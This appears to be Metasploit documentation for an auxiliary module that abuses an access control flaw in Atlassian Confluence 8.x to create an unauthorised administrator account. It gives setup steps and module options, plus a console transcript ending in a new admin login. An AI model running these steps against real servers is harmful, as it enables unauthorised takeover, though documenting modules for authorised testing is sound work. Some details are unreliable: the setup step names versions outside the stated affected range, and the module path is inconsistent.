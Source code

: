 ## Vulnerable Application
This module exploits an Broken Access Control vulnerability in Atlassian Confluence servers leads to Authentication Bypass.

A specially crafted request can be create new admin account without authorization in the Atlassian server.

Affecting Atlassian Confluence from version 8.0.0 to before 8.3.3, from version 8.4.0 before 8.4.3 and from version 8.5.0 before 8.5.2.

## Verification Steps

1. Setting up a working installation of Atlassian Confluence Server before 8.0.0
2. Start `msfconsole`
3. `use use auxiliary/admin/http/atlassian_confluence_auth_bypass`
4. `set RHOST <IP>`
5. `set RPORT <PORT>`
6. `check`
7. You should see `The target is vulnerable`
8. `set NEW_USERNAME <username>`
9. `set NEW_PASSWORD <password>`
10. `run`
11. You should get a new admin account.

## Options
### TARGETURI
Path to Atlassian Confluence installation ("/" is the default)

### NEW_USERNAME
Username to be used when creating a new user with admin privileges. The username must not contain capital letters.

### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

### NEW_EMAIL
E-mail to be used when creating a new user with admin privileges.

## Scenarios
### Tested on Confluence Server 8.0.0 with Linux target (Ubuntu 20.04)
```
msf6 > use auxiliary/multi/http/atlassian_confluence_auth_bypass
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set RHOSTS <YOUR_TARGET>
RHOSTS => <YOUR_TARGET>
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set NEW_USERNAME admin_1337
NEW_USERNAME => admin_1337
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > set NEW_PASSWORD admin_1337
NEW_PASSWORD => admin_1337
msf6 > auxiliary(admin/http/atlassian_confluence_auth_bypass) > run
[*] Running module against <YOUR_TARGET>

[+] Admin user was created successfully. Credentials: admin_1337 - admin_1337
[+] Now you can login as adminstrator from: http://<YOUR_TARGET>:8090/login.action
[*] Auxiliary module execution completed
```
